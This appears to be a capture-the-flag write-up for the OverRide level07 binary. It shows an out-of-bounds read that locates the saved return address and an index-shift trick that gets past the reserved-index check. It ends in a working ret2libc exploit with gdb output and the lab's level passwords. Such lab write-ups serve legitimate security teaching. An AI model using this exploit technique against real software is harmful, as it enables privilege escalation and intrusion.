 # Underflow and ret2libc

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level07
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level07@192.168.56.101's password: GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

The program wipes arguments and environment variables. 

It creates a static array of 400 bytes fo data of storage. 

It executes a loop prompting the user to enter the command to execute: `store`, `read` or `quit`.

`store_number()` receives a pointer to `data` array and store a number to the given index.

Indexes which are modulo 3 and 183rd index are reserved and cannot be assigned.

`read_number()` receive a pointer to `data` array and read the number stored in the given index.

In case of successful execution of command, `main()` prints corresponding message, as well as for unsuccessful execution.

The last instruction zeroing out memory of `command` and it loop again asking the user a command.

`read_number()` do not check if input index, so it allow to read out of boundaries of `data` array. Over 694rd index, program crash with segfault.
```shell
level07@OverRide:~$ ./payload.py --max 1000 | ./level07
[...]
Input command:  Index:  Number at data[693] is 0
 Completed read command successfully
Input command:  Index:  Number at data[694] is 0
 Completed read command successfully
Input command:  Index: Segmentation fault (core dumped)
```
Saved EIP on `main()` function is `0xf7e45513`. While reading out of boundaries of array saved `EIP` should appear.
```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fceff4 --> 0x1a2d7c
ECX: 0xffffd600 --> 0x0
EDX: 0xffffd600 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x0
ESP: 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
EIP: 0x80489f1 (<main+718>:     ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80489ee <main+715>:        pop    esi
   0x80489ef <main+716>:        pop    edi
   0x80489f0 <main+717>:        pop    ebp
=> 0x80489f1 <main+718>:        ret
   0x80489f2:   nop
   0x80489f3:   nop
   0x80489f4:   nop
   0x80489f5:   nop
[------------------------------------stack-------------------------------------]
0000| 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0004| 0xffffd6c0 --> 0x1
0008| 0xffffd6c4 --> 0xffffd754 --> 0xffffd88f --> 0x0
0012| 0xffffd6c8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
0016| 0xffffd6cc --> 0xf7fd3000 --> 0xf7e2c000 --> 0x464c457f
0020| 0xffffd6d0 --> 0x0
0024| 0xffffd6d4 --> 0xffffd71c --> 0xf7ffcff4 --> 0x20f1c
0028| 0xffffd6d8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x80489f1 in main; saved eip 0xf7e45513
 called by frame at 0xffffd730
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
gdb-peda$ x/wx 0xffffd6bc
0xffffd6bc:     0xf7e45513
```
Indeed, on reading 1000 bytes, `EIP` it can be seen.
```shell
level07@OverRide:~$ ./payload.py --max 500 | ./level07 | grep -o "Number at data.*$" | cut -d' ' -f5 | sort -hu | sed 's/^/printf "0x%08x" /e' | grep 0xf7e45513
0xf7e45513
level07@OverRide:~$
```
Or without `payload.py`
```shell
level07@OverRide:~$ python -c "print(0xf7e45513)"
4158936339
level07@OverRide:~$ for i in {0..500}; do (echo read; echo $i; echo quit) | ./level07 | if [ $(grep -oE '[0-9]+$') -eq 4158936339 ]; then echo "EIP is on index $i"; fi; done
EIP is on index 114
```

While reading/storing a number from data storage, the index is used to determine the absolute address from where to read/write strating from beggining of `data` array.
```
data[index<<2] = number
```
On writting to index 1 it will write to `data[1 << 2] = number`, same as `data[4] = number` .

On writting to index 114 it will write to `data[114 << 2] = number`, same as `data[456] = number` .

In the binary representation (32 bits), value `114` looks like:
```
0000 0000   0000 0000   0000 0000   0111 0010
```
Shift operation is destructive. Excess bits shifted off to the left are discarded, and zero bits are shifted in from the right.

Knowing that `store_number()` use rigth-shift operation (multiplication x4) `data[index << 2] = number`, first two MSB bits can be set switch on.

In the first time it will make pass the condition %3, and in the second time at the time of <<2 will result in index 456
| Binary value                                    | Decimal value  | Modulo result | Usable | Binary value after shift <<2                    | Decimal value after shift <<2 |
|-------------------------------------------------|----------------|---------------|--------|-------------------------------------------------|-------------------------------|
| `0100 0000   0000 0000   0000 0000   0111 0010` | 1073741938     | 1             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1000 0000   0000 0000   0000 0000   0111 0010` | 2147483762     | 2             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1100 0000   0000 0000   0000 0000   0111 0010` | 3221225586     | 0             | No     | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |

Retrieve `system()`, `exit()` and `"/bin/sh"` addresses.
```gdb
[...]
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```
Convert them to decimal values.
```gdb
gdb-peda$ p/d 0xf7e6aed0
$3 = 4159090384
gdb-peda$ p/d 0xf7e5eb70
$4 = 4159040368
gdb-peda$ p/d 0xf7f897ec
$5 = 4160264172
```
Decimal values can be stored in data storage following by `quit` command to return from `main()` into a new shell process.

| Value     | Address     | Decimal value | Index                      |
|-----------|-------------|---------------|----------------------------|
| system()  | 0xf7e6aed0  | 4159090384    | 114(1073741938,2147483762) |
| exit()    | 0xf7e5eb70  | 4159040368    | 115                        |
| "/bin/sh" | 0xf7f897ec  | 4160264172    | 116                        |

# Exploit
With index 1073741938
```shell
level07@OverRide:~$ (echo -e "store\n4159090384\n1073741938\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
id
uid=1007(level07) gid=1007(level07) euid=1008(level08) egid=100(users) groups=1008(level08),100(users),1007(level07)
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
With index 2147483762
```shell
level07@OverRide:~$ (echo -e "store\n4159090384\n2147483762\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
id
uid=1007(level07) gid=1007(level07) euid=1008(level08) egid=100(users) groups=1008(level08),100(users),1007(level07)
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
